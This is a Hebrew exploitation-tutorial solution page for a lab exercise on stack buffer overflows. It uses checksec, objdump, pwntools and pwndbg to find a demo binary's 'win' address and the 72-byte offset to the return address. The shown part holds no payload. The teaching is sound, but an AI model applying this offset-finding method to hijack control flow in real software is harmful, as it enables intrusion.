

repository: AmitPinchasi/amittech · page: מחקר-חולשות/2 - גלישת חוצץ על המחסנית/2.1 - אנטומיה של גלישה ושליטה בRIP/2.1 - אנטומיה של גלישה ושליטה בRIP - פתרון/index.html · generator: mkdocs

## פתרון - אנטומיה של overflow ושליטה ב-RIP

כאן נפתור את שלושת התרגילים עד הסוף, עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. אם עוד לא ניסיתם לבד, חזרו לקובץ התרגול ותנסו קודם. הפתרון הכי מלמד הוא זה שהזעתם עליו.

### פתרון תרגיל 1 - לקרוא את המסגרת ב-GDB

נתחיל מבדיקת ההגנות של הדמו:

```bash
$ checksec --file=./demo
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

זה בדיוק מה שציפינו: `-fno-stack-protector` הביא ל-No canary, `-no-pie` הביא ל-No PIE, וה-NX דלוק כברירת מחדל. אין canary שיתפוס אותנו כשנדרוס את הreturn address, ואין PIE, אז הכתובת של `win` קבועה.

מוצאים את הכתובת של `win` בשתי דרכים:

```bash
$ objdump -d demo | grep '<win>:'
0000000000401156 <win>:
```

```python
>>> from pwn import *
>>> ELF('./demo').symbols['win']
0x401156
```

שתי הדרכים מסכימות על `0x401156`. מכיוון שהבינארי הוא No PIE, הכתובת הזו לא תשתנה בין הרצות, וזו הסיבה שאפשר להשתמש בה ישירות ב-exploit.

עכשיו נפרק את `vuln` ב-GDB כדי למצוא איפה יושב הbuffer:

```text
pwndbg> disassemble vuln
   0x0000000000401168 <+0>:     push   rbp
   0x0000000000401169 <+1>:     mov    rbp,rsp
   0x000000000040116c <+4>:     sub    rsp,0x40
   0x0000000000401170 <+8>:     lea    rax,[rip+0xe9d]        # "send: "
   ...
   0x0000000000401186 <+30>:    lea    rax,[rbp-0x40]
   0x000000000040118a <+34>:    mov    edx,0x100
   0x000000000040118f <+39>:    mov    rsi,rax
   0x0000000000401192 <+42>:    mov    edi,0x0
   0x0000000000401197 <+47>:    call   0x401060 <read@plt>
   ...
```

ההוראה `lea rax, [rbp-0x40]` ממש לפני `call read` מגלה לנו שהbuffer `buf` יושב בכתובת `rbp-0x40`. מכאן החישוב:

```text
buf at            rbp - 0x40      -> 64 bytes to the saved rbp
saved rbp at      rbp             -> another 8 bytes
return address at rbp + 8

offset from buf to the return address = 0x40 + 8 = 64 + 8 = 72 bytes
```

אימות ידני, אם רוצים לוודא ולא לנחש:

```text
pwndbg> break *vuln+47
pwndbg> run
pwndbg> p/x $rbp - ($rsp)      # measure where rsp is relative to rbp after sub rsp,0x40
$1 = 0x40
pwndbg> p/x $rbp + 8           # return address
```

מרחק של `0x40` בין `rsp` (תחילת הbuffer) ל-`rbp`, ועוד 8 עד הreturn address, שוב 72.

**למה זה עבד:** קראנו את המסגרת ישירות מהקוד במקום לנחש. `lea rax, [rbp-0x40]` הוא הכתובת שנשלחת ל-`read` בתור היעד, כלומר תחילת הbuffer. **איך להכליל:** בכל בינארי, ההוראה שמכינה את המצביע לפונקציית הקריאה (read/gets/fgets) מגלה לכם איפה הbuffer. משם, המרחק לreturn address הוא גודל המרחב שמעל הbuffer ועד `rbp`, ועוד 8.
